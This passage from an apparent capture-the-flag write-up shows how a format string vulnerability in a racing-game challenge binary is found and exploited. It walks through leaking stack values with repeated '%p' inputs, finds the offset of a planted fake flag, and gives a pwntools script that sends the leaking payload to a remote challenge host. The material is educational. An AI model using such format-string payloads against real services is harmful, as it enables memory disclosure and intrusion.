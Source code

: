 Since the program will shut down if it can't read the `flag.txt`, which will make us can't try the correct payload, we should make a fake flag first. Here I create a fake `flag.txt` in the current directory with `AAAAAAAA` as its content. That's because it'll make it easier for us to locate its position since it will be displayed as `41414141 41414141` in hexadecimal.

After doing that, we run the program and try to enter some malicious input after winning the game. So, I try to input `%p` to see if there's a [format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack).

![Format string vulnerability PoC](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240712150929732.png)

Voila! The program output the value of the pointer which is caused by `%p`. So now we know that there is a vulnerability to be exploited here. In the next step, we need to know where is the offset of the flag. To obtain the offset, we use a lot of `%p` to see at which the program outputs the flag, which is `41414141 41414141` in our case. Here's the output.

```
Select race:
1. Highway battle
2. Circuit
> 1
[*] Waiting for the race to finish...
[+] You won the race!! You get 100 coins!
[+] Current coins: [169]
[!] Do you have anything to say to the press after your big victory?
> %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this:
0x57a3d200 0x170 0x56595dfa 0x3 (nil) 0x26 0x2 0x1 0x5659696c 0x57a3d200 0x57a3d380 0x41414141 0x41414141 0xf7c5000a 0x170c0c00 0x56596d58 0x56598f8c 0xffaecf38 0x5659638d 0x56596540
```

We can see that the first part of `41414141` appears at the 12th position, so the offset is 11. Now, let's hack the planet!

# 0x02 Exploit

Since we know the offset is 11, we can easily write a Python script to exploit it.

```python
from pwn import *

r = remote(b"94.237.53.113", 39497)  # This IP is mine, you can change it to yours.
r.recvuntil(b"Name: ")
r.sendline(b"CX330")  # Doesn't matter
r.recvuntil(b"Nickname: ")
r.sendline(b"CX330")  # Doesn't matter
r.recvuntil(b">")
r.sendline(b"2")
r.recvuntil(b">")
r.sendline(b"2")
r.recvuntil(b">")
r.sendline(b"1")
r.recvuntil(b">")
r.sendline(b"%p " * 11 + b"\nflag: " + b"%p " * 12)
r.interactive()
```
